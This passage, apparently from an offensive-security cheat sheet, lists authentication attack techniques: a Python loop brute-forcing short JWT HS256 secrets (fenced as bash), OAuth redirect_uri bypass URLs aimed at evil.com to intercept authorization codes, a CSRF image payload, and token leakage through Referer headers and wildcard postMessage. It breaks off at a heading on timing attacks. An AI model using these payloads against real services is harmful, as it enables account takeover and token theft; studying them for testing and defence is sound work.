 ```bash
# Brute force short secrets
for length in range(1, 8):
    for secret in itertools.product(string.ascii_lowercase, repeat=length):
        secret_str = ''.join(secret)
        try:
            jwt.decode(token, secret_str, algorithms=['HS256'])
            print(f"Secret found: {secret_str}")
            break
        except:
            continue
```

#### **OAuth 2.0 Advanced Attacks**

**Authorization Code Interception:**
```javascript
// Vulnerable redirect_uri validation
// Original: https://client.com/callback
// Attack: https://client.com.evil.com/callback
// Attack: https://client.com/callback/../../../evil.com/steal
// Attack: https://client.com@evil.com/callback

// CSRF on OAuth flow
<img src="https://auth-server.com/oauth/authorize?client_id=CLIENT_ID&redirect_uri=https://client.com/callback&response_type=code&state=PREDICTABLE_STATE">

// State parameter bypass
// If state validation is missing or weak
https://auth-server.com/oauth/authorize?client_id=CLIENT_ID&redirect_uri=https://evil.com&response_type=code
```

**Access Token Leakage:**
```javascript
// Referer header leakage
<a href="https://evil.com" target="_blank">
    <img src="https://api.service.com/user/profile?access_token=LEAKED_TOKEN">
</a>

// PostMessage token theft
// In OAuth popup window
window.opener.postMessage(access_token, '*');

// Fragment identifier leakage
// If using implicit flow
https://client.com/callback#access_token=TOKEN&token_type=bearer
// Token visible in server logs, browser history, referer headers
```

### 🔑 Advanced Password Attack Techniques

#### **Timing Attacks on Authentication**
